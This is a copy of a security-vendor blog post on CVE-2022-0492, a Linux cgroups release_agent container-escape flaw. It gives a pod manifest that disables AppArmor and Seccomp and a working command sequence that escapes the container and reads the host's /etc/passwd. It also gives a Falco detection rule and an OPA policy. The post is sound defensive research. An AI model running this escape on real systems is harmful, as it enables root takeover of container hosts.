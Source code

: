 CVE-2022-0492: Privilege escalation vulnerability causing container escape
BY STEFANO CHIERICI - MARCH 8, 2022
TOPICS: THREAT RESEARCH
SHARE:

##
#
https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/
#
https://www.hackthebox.com/blog/cve-2022-04920-carpe-diem-explained
#
##



CVE-2022-0492 Detect and mitigate privilege escalation
Linux maintainers disclosed a privilege escalation vulnerability in the Linux Kernel. The vulnerability has been issued a Common Vulnerability and Exposures ID of CVE-2022-0492 and is rated as a High (7.0) severity.


The flaw occurs in cgroups permitting an attacker to escape container environments, and elevate privileges.

The vulnerable code was found in the Linux Kernel’s cgroup_release_agent_write in the kernel/cgroup/cgroup-v1.c function. A patch released fixes this issue in the version kernel 5.17 rc3.

Most container environments have already the security settings enabled by default to prevent container escape. In fact, containers running with SELinux, AppArmor, or Seccomp are protected. That being said, we all know containers run without following the security best practice aren’t unusual and it might expose your environment to serious risks.

In any case, we suggest all Linux users are advised to download and install the latest version of the Kernel.


Interested in container escapes? Take a look at this video, where we demo this release agent escape and other docker breakout techniques!
The CVE-2022-0492 issue
While release_agent escapes are already out there, they require the CAP_SYS_ADMIN capability to escape the container.

CVE-2022-0492 shows us a new technique that can be used to achieve the escape. In particular, we can mount cgroupfs in new users’ namespaces and then edit the release_agent file.

One of the available features of cgroups v1 is the release_agent file. The file allows administrators to configure a “release agent” program that would run upon the termination of a process in the cgroup. When a process dies, the kernel checks whether its cgroups had notify_on_release enabled. If enabled, it spawns the related release_agent binary, running as root.

This means that if you can write to the release_agent file, you can force the kernel into invoking a binary you choose to execute with elevated privileges and take control of the entire system. For these reasons, the release_agent file is owned by root and only a user with root can write to it.

Exploiting CVE-2022-0492
As mentioned before most container environments that follow the security best practices are secure by default. In fact, in order to proceed with the exploitation of the vulnerability, the following conditions must be met:

Container run as root: since only root can modify the release_agent file this is a mandatory condition to exploit the vulnerability
AppArmor and SELinux must be disabled: both tools prevent the mounting.
Seccomp must be disabled: only containers running without that can create a new user namespace
root cgroup v1: which is the more used version in architecture
Let’s have a look at the exploitation using a Kubernetes Pod. Here is posted the Pod deployed for the test:

apiVersion: v1
kind: Pod
metadata:
 labels:
   app: apache-httpd
 name: apache-httpd
 namespace: apache-httpd
 annotations:
   container.apparmor.security.beta.kubernetes.io/apache-httpd: unconfined
   container.seccomp.security.alpha.kubernetes.io/apache-httpd: unconfined
spec:
 containers:
   - name: apache-httpd
     image: darryk/apache2.4.49
     ports:
       - containerPort: 80
         hostPort: 80
In particular, the two annotations reported below make sure AppArmor and Seccomp are disabled for the Pod.

container.apparmor.security.beta.kubernetes.io/apache-httpd: unconfined and
container.seccomp.security.alpha.kubernetes.io/apache-httpd: unconfined
It is worth noting that if the container is run as privileged all the user-defined measures aren’t applied for the Pod. In this scenario, this new technique is just another one possible along with others already well-known to perform escaping from containers.

     securityContext:
       privileged: true
Once deployed we can execute unshare to create a new user namespace and cgroup namespace. Then we can mount the cgroupfs and write our data to release_agent.

unshare -UrmC bash
mkdir /tmp/mountest && mount -t cgroup -o rdma cgroup /tmp/mountest && mkdir /tmp/mountest/x
To trigger the exploit we need also to trigger release_agent invocation by killing all processes in the cgroup. To enable cgroup notifications on the release of the “x” cgroup created we write a 1 to its notify_on_release file.

We also need to edit cgroup release_agent file to execute a /cmd script which will read the host /etc/passwd sensitive file and write the content in the output file directly inside the container. To do it, we’ll grab the container’s path on the host from the /etc/mtab file.

echo 1 > /tmp/mountest/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/mountest/release_agent
echo '#!/bin/sh' > /cmd
echo "cat /etc/passwd > $host_path/output" >> /cmd
chmod a+x /cmd
We can now trigger the attack by spawning a process that immediately ends inside the child cgroup. As shown in the screenshot below we were able to perform the attack and successfully retrieve the host file /etc/passwd from inside the container.

sh -c "echo \$\$ > /tmp/mountest/x/cgroup.procs"
output etc/passwd container scape
This is just an example to show the successful escaping from the container but other more damaging actions can be done by attackers in order to totally compromise the host.

The impact of CVE-2022-0492
The severity of the flaw is rated High with a score at 7.0. It has a high impact and is easy to exercise by local attackers with root access in the container.


To learn more about how a vulnerability score is calculated, Are Vulnerability Scores Tricking You? Understanding the severity of CVSS and using them effectively

If attackers can exploit the vulnerability, they can leverage this flaw to escape a container environment and gain root privileges on the host system.

As we have seen before, checking if the container environment is vulnerable and also performing the exploitation is fairly easy and straightforward. In addition, similar escaping techniques are already well known and it makes the vulnerability even easier to exploit.

Mitigating CVE-2022-0492
CVE-2022-0492 can be mitigated by installing the Linux Kernel patch.

If patching is not possible, Linux users can also disable unprivileged user namespaces without needing to reboot. WARNING: These commands may affect the host’s ability to run containers.

Run and Response: Event Detection
Using a Runtime detection engine tool like Falco, you can detect attacks that occur in runtime when your containers are already in production. Falco, a CNCF incubating project, can help detect anomalous activities in cloud-native environments. The following Falco rule can help you detect if you are impacted by CVE-2022-0492.

- rule: Linux Cgroup Container Escape Vulnerability (CVE-2022-4092)
  desc: "This rule detects an attempt to exploit a container escape vulnerability in the Linux Kernel."
  condition: container.id != "" and proc.name = "unshare" and spawned_process and evt.args contains "mount" and evt.args contains "-o rdma" and evt.args contains "/release_agent"
  output: "Detect Linux Cgroup Container Escape Vulnerability (CVE-2022-4092) (user=%user.loginname uid=%user.loginuid command=%proc.cmdline args=%proc.args)"
  priority: CRITICAL
  tags: [process, mitre_privilege_escalation]
Deploy: Image scanner on admission controller
Implementing image scanning on the admission controller, it is possible to admit only the workload images that are compliant with the scanning policy to run in the cluster.

You can create a validating admission webhook that prevents workload creation and modification. If you have an existing admission policy mechanism (like OPA Gatekeeper), you can create a policy that enforces this restriction.

OPA Gatekeeper
This component is able to reject images based on names, tags, namespaces, CVE severity level, and so on, using different criteria.

Creating and assigning a policy, the admission controller will evaluate new deployment images, blocking deployment if the security issue is detected.

Using the following OPA rego policy we can make sure that Pod being deployed hasn’t disabled AppArmor or Seccomp.

package kubernetes.admission
validateAnnotations(annotation){
  some k
  annotation[k]
  startswith(k, "container.apparmor.security.beta.kubernetes.io")
  annotation[k] == "unconfined"
}
validateAnnotations(annotation){
  some k
  annotation[k]
  startswith(k, "container.seccomp.security.alpha.kubernetes.io/")
  annotation[k] == "unconfined"
}
valueWorkLoadAnnotations(workload){
assign(annotation, workload.annotations[_]);
validateAnnotations(annotation)
}
deny[message] { 
equal(input.request.kind.kind, "Pod"); 
assign(workload, input.request.object[_]); 
valueWorkLoadAnnotations(workload);
message := sprintf("Container has  %v", [workload.name])
}
Conclusion
Luckily, the vulnerability, CVE-2022-0492, was discovered and already patched but the ease of the exploitability requires putting in place mechanisms to prevent deploying new vulnerable services and be sure we aren’t getting attacks on existent hosts by checking runtime events.

Administrators and users need to keep their systems up to date with the latest security patches. Depending on the environment, patching can be a time-consuming process. Fortunately, open source tools such as Falco and OPA can help track down unpatched systems before attackers can.

In any case, we suggest all Linux users are advised to download and install the latest version of the Kernel.

